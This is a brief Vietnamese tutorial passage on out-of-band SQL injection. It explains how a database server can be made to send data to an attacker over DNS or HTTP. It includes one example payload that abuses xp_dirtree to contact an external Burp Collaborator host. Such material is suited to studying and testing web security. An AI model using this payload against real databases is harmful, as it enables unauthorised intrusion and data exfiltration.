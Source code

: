 ![Out-of-band SQLi](../img/Screenshot%202022-05-07%20161735.png)

### **3. Out-of-band SQLi**

_3.1. Định nghĩa_

- Out-of-band SQLi sẽ **_chỉ hoạt động khi một vài tính năng nhất định được enabled trên Database Server_**. Kiểu tấn công này **_dựa vào khả năng tạo Network Connection thông qua một số giao thức như DNS hoặc HTTP để truyền dữ liệu tới tin tặc của Server_**.
- Kiểu tấn công SQLi này **_không phổ biến_**. Tin tặc thực hiện Out-of-band SQLi như giải pháp cuối cùng khi những kiểu tấn công trên không có tác dụng.

_3.2. Khai thác Out-of-band SQLi_

- **_Gửi OAST Payload được thiết kế để kích hoạt tương tác mạng Out-of-band khi được thực thi trong một truy vấn SQL và giám sát mọi tương tác kết quả_**.
- **_Tùy thuộc vào SQL Injection, sử dụng các phương pháp khác nhau để trích xuất dữ liệu_**.

_3.3. Ví dụ_

Ví dụ 1

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Diễn giải

Trong một số trường hợp có thể trích xuất dữ liệu trực tiếp, nhưng cũng có thể phải sử dụng các câu lệnh điều kiện để hỏi Server, từ đó xây dựng lại dữ liệu.
